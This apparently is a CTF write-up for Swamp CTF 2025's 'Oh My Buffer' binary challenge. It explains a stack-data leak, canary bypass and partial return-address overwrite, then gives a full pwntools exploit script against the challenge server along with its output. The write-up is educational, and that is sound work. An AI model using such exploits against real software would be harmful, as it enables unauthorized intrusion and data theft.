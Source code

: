 ```yaml
---
title: Oh My Buffer
date: 2025-03-30T22:47:05+03:00
description: Writeup for Oh My Buffer [Swamp CTF 2025]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I may have messed up my I/O calls, but it doesn't matter if everything sensitive has been erased, right?

## Intuition

Open the binary in Ghidra:

```c

void main(void)

{
  int fd_devnull;
  __pid_t _Var1;
  int tmp;
  int tmp2;
  int tmp3;
  long in_FS_OFFSET;
  char local_71;
  int fd_stdout;
  int opt;
  FILE *local_68;
  FILE *devnull;
  char flag [72];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  local_68 = fopen("flag.txt","r");
  fgets(flag,0x40,local_68);
  fclose(local_68);
  devnull = fopen("/dev/null","w");
  fd_stdout = dup(1);
  fd_devnull = fileno(devnull);
  dup2(fd_devnull,1);
  puts("Here\'s the flag, too bad we don\'t let you see this:");
  fflush(stdout);
  fputs(flag,stdout);
  memset(flag,0,0x40);
  dup2(fd_stdout,1);
  close(fd_stdout);
  fclose(devnull);
  _Var1 = fork();
  if (_Var1 == 0) {
    while( true ) {
      do {
        while( true ) {
          write(1,"===================\n",0x14);
          write(1,"Welcome to the box!\n",0x14);
          write(1,"1) Register\n",0xc);
          write(1,"2) Login\n",9);
          write(1,"3) Exit\n",8);
          write(1,"> ",2);
          do {
            tmp = getchar();
            local_71 = (char)tmp;
          } while (local_71 == '\n');
          opt = atoi(&local_71);
          opt = opt % 3;
          do {
            tmp2 = getchar();
          } while (tmp2 != 10);
          write(1,"-------------------\n",0x14);
          tmp3 = opt % 3;
          if (tmp3 != 2) break;
          login();
        }
      } while (2 < tmp3);
      if (tmp3 == 0) break;
      if (tmp3 == 1) {
        reg();
      }
    }
    _exit(0);
  }
  wait((void *)0x0);
  _exit(0);
}
```

The main function is not very interesting. It reads the flag but prints it to `/dev/null`. Then it deletes it from the stack and puts us in `the box`.
The box has three options: Register, Login, and Exit.

The following function is the `reg()` function:

```c
void reg(void)
{
  long in_FS_OFFSET;
  undefined local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"Username: ",10);
  read(0,local_28,0x2a);
  write(1,"Password: ",10);
  read(0,local_28,0x2a);
  write(1,"Sorry, registration isn\'t open right now!\n",0x2a);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

It is quite obvious there is a buffer overflow in both reads, which allows us to both poison the RBP and overwrite 2 bytes of the return address.
But the stack cookie is quite a pain. Meanwhile, in the `login()` function:

```c
void login(void)
{
  long in_FS_OFFSET;
  int local_2c;
  undefined name [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"How long is your username: ",0x1b);
  __isoc99_fscanf(stdin,"%d",&local_2c);
  write(1,"Username: ",10);
  read(0,name,0x10);
  write(1,"Sorry, we couldn\'t find the user: ",0x22);
  write(1,name,(long)local_2c);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Because we control the write size through `local_2c`, we can leak arbitrary amount of stack content. We can leak the canary and a heap address.
Why should we leak a heap address? Because the flag was also stored there after the `fputs()` function call in `main()`:

```
$ gdb -q ./binary
pwndbg> break fputs
Breakpoint 1 at 0x4010b0
pwndbg> r
pwndbg> fin
pwndbg> search "ctf{"
Searching for value: 'ctf{'
[heap]          0x405480 "ctf{.hidden_baby!}\no bad we don't let you see this:\n"
[stack]         0x7fffffffdd80 'ctf{.hidden_baby!}\n'
```

Great, so even if the stack buffer is zero'd out, we still have the flag on the heap. So strategy is as follows:

1. Leak a bunch of stack data with `login()`.
2. Get heap address leak.
3. Get canary.
4. Overflow the RBP and return address in `reg()`.

But where should we jump? We only have 2 bytes we can change and there's not a lot of good targets.
We have control over RBP, so maybe we can find something that prints a string found relative to RBP?

There is exactly that inside `login()`:

```
0040139b 48 8d 45      LEA       RAX=>name,[RBP + -0x20]
         e0
0040139f 48 89 c6      MOV       RSI,RAX
004013a2 bf 01 00      MOV       EDI,0x1
         00 00
004013a7 e8 b4 fc      CALL      <EXTERNAL>::write                          ssize_t write(int __fd, void
         ff ff
```

Luckily, the RDX register (which is the size of the write) is some big number when we get to jump here.
So everything falls into place! Last and final steps:

5. Change RBP to flag location on the heap + 0x20.
6. Change lower bytes of return address to `0x139b`.
7. Win!

## Solution

Here's what I explained above, but in a script:

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./binary")
target = remote("chals.swampctf.com", 40005)

target.recvuntil(b"> ")
target.sendline(b"2")
target.recvuntil(b"ame: ")
target.sendline(b"80")
target.recvuntil(b"ame: ")
target.sendline(b"a" * 0xf)

leak = target.recv(150)
cookie = u64(leak[58:66])
leak = u64(leak[106:114])
flag = leak - 480 + 0x20 + 960

payload = 0x18 * b"a" + p64(cookie) + p64(flag) + b"\x9b\x13"

target.recvuntil(b"> ")
target.sendline(b"1")
target.recvuntil(b"me: ")
target.sendline(payload)
target.recvuntil(b"rd: ")
target.sendline(payload)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40005: Done
b"\x00W\xed\xee+'\xd4\xfb"
b'\xa0\xd2\xe1\x1f\x00\x00\x00\x00'
0x1fe1d4a0
[*] Switching to interactive mode
Sorry, registration isn't open right now!
swampCTF{fUn_w1tH_f0rk5_aN6_fd5}
 let you *** stack smashing detected ***: terminated
```
